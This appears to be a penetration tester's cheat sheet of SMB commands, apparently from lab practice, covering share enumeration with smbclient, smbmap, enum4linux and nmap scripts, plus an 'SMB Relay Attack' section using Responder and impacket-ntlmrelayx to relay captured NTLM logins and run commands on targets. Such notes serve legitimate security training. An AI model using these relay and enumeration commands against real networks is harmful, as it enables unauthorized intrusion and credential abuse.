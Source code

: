 ```
smbclient -L \\\\$IP\\
```

```
smbclient -L //dc1.scrm.local
```

```
smbclient -U ksimpson -L //dc1.scrm.local
```

```
smbclient \\\\$IP\\DIRECTORY
```

```
smbclient -L //$DomainIP -U $DomainName/$DomainUsername
```

```
smbclient -L //$DomainIP/DIRECTORY -U $DomainName/$DomainUsername
```

```
smbclient -L 10.129.61.158 -U Administrator
```

/etc/samba/smb.conf

```
searchsploit Samba 2
```

```
smbmap -H $ip -u 'anonymous' -p 'anonymous'
```

```
enum4linux -a -u "<username>" -p "<passwd>" <IP>
```

```
smbclient //$ip/directory -U '<username>'
```

## SMB Relay Attack

```
nmap --script=smb2-security-mode.nse -p445 $IP
```

```
sudo responder -I eth1 -dwPv
```

![](Pasted%20image%2020231021151759.png)

```
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```

```
sudo nmap --script smb-enum-shares -p445 10.129.200.70
```

```
sudo nmap -sU -sS --script smb-enum-shares.nse -p U:137,T:139 10.129.200.70
```

```
sudo nmap -p139 --script smb-protocols 10.129.200.70
```

```
sudo nmap -p445 --script smb-protocols 10.129.200.70
```

```
nmap --script=smb-protocols -p139,445 --open --reason -sV -Pn
nmap --script=smb-protocols -p445 --open --reason -sV -Pn
nmap --script=smb-protocols -p139 --open --reason -sV -Pn
```


